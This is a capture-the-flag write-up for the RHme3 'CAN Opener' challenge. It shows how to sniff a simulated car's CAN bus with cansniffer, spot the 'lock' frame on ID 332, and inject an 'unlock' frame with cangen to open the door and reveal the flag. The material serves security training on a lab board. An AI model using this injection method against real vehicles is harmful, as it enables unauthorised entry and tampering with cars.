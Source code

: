 # [CAN Opener](https://rhme.riscure.com/3/challenge?id=13)

Controller Area Network - 150pts

## Challenge text

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge is basically to identify which CAN ID controls door locks, rewrite it, and manually feed it back onto the CAN bus.  It's that simple.

### Preparation

If you haven't done so already, follow the [Beaglebone Black CAN preparation](../Preparation/BBB_CAN_setup.md) guide to get ready for working with CAN bus.

Make the following connections:
* Connect the two ECUs on the RHme3 board using jumpers.
* Connect the Beaglebone Black to the RHme3 ECUs using twisted pair wiring via a CAN transciever such as a Carloop CAN Hitch.  The Beaglebone Black is capable of using two CAN transcievers, but you only need one for this challenge.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that CAN ID 332 may be useful:

	$ cansniffer -c can0
	332  6C 6F 63 6B 00 00 00 00 lock....

### Attack

Let's attempt to rewrite this as "unlock" and feed it back using cangen:

	332  75 6E 6C 6F 63 6B 00 00 unlock..
	$ cangen -I 332 -L 8 -D 756E6C6F636B0000 -n 5 can0

On the dashboard, the door indicator lights up and the flag is displayed in the lower left corner.

![CAN Opener Dashboard with FLAG](../Images/can_opener_dashboard.png)
